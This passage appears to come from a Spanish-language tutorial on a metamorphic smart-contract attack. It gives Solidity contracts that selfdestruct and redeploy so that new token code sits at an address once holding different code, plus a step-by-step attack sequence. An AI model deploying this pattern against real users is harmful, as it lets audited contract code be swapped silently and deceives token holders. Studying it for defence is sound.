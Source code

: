 ```solidity

contract Grua {
    address public edificioAddressUno;
    address public edificioAddressDos;

    function destroy() public {
        selfdestruct(payable(msg.sender));
    }

    function construirEdificioUno() public {
        EdificioUno edificioUno = new EdificioUno();
        edificioAddressUno = address(edificioUno);
    }

    function construirEdificioDos() public {
        EdificioDos edificioDos = new EdificioDos();
        edificioAddressDos = address(edificioDos);
    }
}

contract EdificioUno is ERC20("TOKEN UNO", "TKN1") {
    constructor() {
        _mint(0xF90a9359f2422b6885c900091f2aCc93E0933B7a, 1_000 * 1e18);
    }
    function destroy() public {
        selfdestruct(payable(msg.sender));
    }
}

contract EdificioDos is ERC20("TOKEN DOS", "TKN2") {
    constructor() {
        _mint(0xF90a9359f2422b6885c900091f2aCc93E0933B7a, 500 * 1e18);
        _mint(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4, 500 * 1e18);
    }
    function destroy() public {
        selfdestruct(payable(msg.sender));
    }
}
```

### Secuencia del ataque

1. Se publica el contrato Conductor
2. El contrato Conductor publica el contrato Grua
3. El contrato Grua publica el EdificioUno
4. El contrato EdificioUno se autodestruye, regresando su code size y nonce a 0
5. El contrato Grua se autodestruye, regresando su code size y nonce a 0
6. El contrato Conductor vuelve a publicar Grua, el cual otra vez posee un nonce de 1
7. El contrato Grua publica esta vez el EdificioDos, que es el contrato con el nuevo código pero en la misma address en que estaba EdificioUno
